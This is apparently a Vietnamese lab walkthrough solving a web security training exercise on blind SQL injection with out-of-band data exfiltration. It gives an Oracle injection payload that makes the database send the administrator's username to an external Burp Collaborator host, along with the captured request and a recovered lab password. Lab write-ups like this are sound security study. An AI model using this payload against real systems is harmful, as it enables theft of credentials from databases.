





# **Lab: Blind SQL injection with out-of-band data exfiltration**

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.  
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.  
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the `administrator` user.  
> To solve the lab, log in as the `administrator` user.

# **Solution**

Ta có TrackingId:

```
Cookie: TrackingId=Bo6LKXhFAxjk38CV; session=bdxAJPSjpSha3vOAR8iDiiEKZEyG87E1
```

Khởi động `Burp Collaborator` và lấy `Burp Collaborator Subdomain`:

```
q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com
```

Có các mẫu để tấn công out of-band-data exfiltration:  


Sửa lại query cho đúng:

```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT username FROM users WHERE ROWNUM=1)||'.q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Encode:


Sau khi gửi request, quay lại trang `Collaborator`. Nếu không thấy tương tác nào được ghi thì bấm `Poll now`.  
Thấy thu được 5 tương tác, chọn tương tác có type HTTP và kiểm tra phần request:  


```
GET / HTTP/1.0
Host: administrator.q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com
Content-Type: text/plain; charset=utf-8
```

Ở phần `Host`, thu được `username` nằm ở `ROWNUM=1` là `administrator`.

Vậy là thành công lấy được `username`, thực hiện tương tự để lấy `password`:

  


```
socj4hd78ry2udodi9qs
```

Login and Done~~
